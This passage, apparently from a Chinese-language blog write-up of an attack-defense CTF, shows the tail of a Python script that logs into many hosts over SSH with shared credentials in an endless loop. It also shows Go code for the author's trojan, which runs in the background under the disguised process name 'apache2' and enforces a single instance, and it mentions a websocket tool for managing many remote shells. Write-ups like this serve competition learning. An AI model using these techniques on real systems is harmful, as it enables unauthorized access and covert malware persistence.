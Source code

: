 ```python
        ssh_thread = pool.submit(single_ssh, ip, port, USERNAME, PASSWORD)
        ssh_threads.append(ssh_thread)

    infos = []
    for ssh_thread in concurrent.futures.as_completed(ssh_threads):
        info = ssh_thread.result()
        if info != None:
            infos.append(info)
    return infos


if __name__ == "__main__":
    while True:
        print(batch_ssh())
        time.sleep(10)
```

这一套直接无解，关卡二我都懒得打，所有人的 shell 都在我这儿。

### 升级小马

之前的小马虽然能上报 flag，还是很多地方让人很不爽。比如有的洞我们是循环脚本在打，可能在别人机器上跑很多个木马，非常浪费。于是写了个锁，保证单实例运行。

```golang
var singleInstance *single.Single

func CheckSingleInstance() {
	singleInstance, err := single.New("apache2")
	if err != nil {
		os.Exit(1)
	}
	err = singleInstance.Lock()
	if err != nil {
		os.Exit(1)
	}
}

func RunSelfBackground() {
	if os.Getenv("APACHE2_BACKGROUND") == "1" {
		// 确保只有一个后台进程
		CheckSingleInstance()
		return
	}
	cmd := exec.Command(os.Args[0])
	cmd.Env = append(os.Environ(), "APACHE2_BACKGROUND=1")
	cmd.Start()
	os.Exit(0)
}
```

另外之前的马只能上报 flag，我还想偶尔拿 shell 玩玩，于是拿 websocket 搓了个批量管理的 shell。

最后大概长这样：
